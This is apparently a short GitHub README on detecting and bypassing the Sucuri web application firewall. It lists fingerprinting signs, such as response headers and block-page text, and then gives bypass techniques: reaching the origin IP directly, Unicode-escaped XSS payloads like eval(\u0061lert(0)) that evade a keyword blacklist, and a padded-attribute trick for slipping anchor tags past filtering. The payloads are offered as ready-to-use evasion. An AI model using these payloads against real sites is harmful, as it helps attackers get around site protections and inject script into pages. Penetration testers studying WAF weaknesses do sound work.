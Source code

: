 # WAF_bypass

## Securi WAF

### Detection

- Detectability: Easy
- Detection Methodology:
- Response headers may contain Sucuri or Cloudproxy keywords.
- Blocked response page contains the following text snippet:
- Access Denied - Sucuri Website Firewall text.
- Reference to https://sucuri.net/privacy-policy URL.
- Sometimes the email cloudproxy@sucuri.net.
- Contains copyright notice ;copy {year} Sucuri Inc.
- Response headers contains X-Sucuri-ID header along with normal requests.

---

### Bypasses

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


### Help 

https://github.com/0xInfection/Awesome-WAF  


